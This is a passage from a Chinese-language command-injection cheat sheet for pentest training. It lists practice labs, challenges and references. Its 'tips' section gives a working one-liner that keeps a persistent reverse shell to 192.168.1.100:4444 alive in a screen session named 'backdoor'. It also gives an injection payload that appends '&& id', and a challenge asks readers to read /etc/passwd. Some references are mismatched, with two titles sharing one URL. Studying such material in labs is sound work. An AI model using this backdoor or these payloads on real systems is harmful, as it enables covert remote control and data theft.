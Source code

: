 
## 技巧

### 后台运行长时间命令

```bash
# 使用nohup
nohup ping -i 30 127.0.0.1 &


# 使用screen
yum install -y screen && screen -dmS backdoor bash -c 'while true; do /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1; sleep 30; done'
```

### 删除注入点后的参数

```bash
original_cmd_by_server; original_argument='' && id
```

## 实验环境

* [OWASP Juice Shop - Command Injection](https://www.owasp.org/index.php/OWASP_Juice_Shop_Project)
* [DVWA - Command Injection](http://www.dvwa.co.uk/)
* [WebGoat - Command Injection](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)

### 挑战

1. 尝试利用命令注入漏洞读取`/etc/passwd`文件。
2. 尝试在没有空格的情况下执行命令。
3. 尝试使用不同的命令分隔符。
4. 尝试将命令输出重定向到Web服务器。
5. 尝试获取反向shell。

## 参考资料

* [Argument Injection and Getting Past Shellwords.escape - Etienne Stalmans - November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
* [Argument Injection Vectors - SonarSource - February 21, 2023](https://sonarsource.github.io/argument-injection-vectors/)
* [Back to the Future: Unix Wildcards Gone Wild - Leon Juranic - June 25, 2014](https://www.exploit-db.com/papers/33930)
* [Bash Snippets for Pentesters - Osanda Malith - March 18, 2017](https://highon.coffee/blog/bash-snippets-for-pentesters/)
* [Command Injection - OWASP](https://owasp.org/www-community/attacks/Command_Injection)
* [Command Injection - PortSwigger](https://portswigger.net/web-security/os-command-injection)
* [Command Injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)
* [Command Injection Payload List - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
* [Exploiting Timed Based RCE - David Bernal - August 20, 2019](https://www.dav1d8.com/blog/2019/08/20/exploiting-timed-based-rce/)
* [Linux Privilege Escalation using Misconfigured LD_LIBRARY_PATH - Raj Chandel - February 10, 2018](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)
* [Penetration Testing: Command Injection - NetbiosX - June 20, 2017](https://www.hackingarticles.in/penetration-testing-command-injection/)
* [The Art of Command Injection - Osanda Malith - January 29, 2015](https://www.exploit-db.com/papers/33930)
* [Windows Command Injection - NetbiosX - June 20, 2017](https://www.hackingarticles.in/windows-command-injection/)

---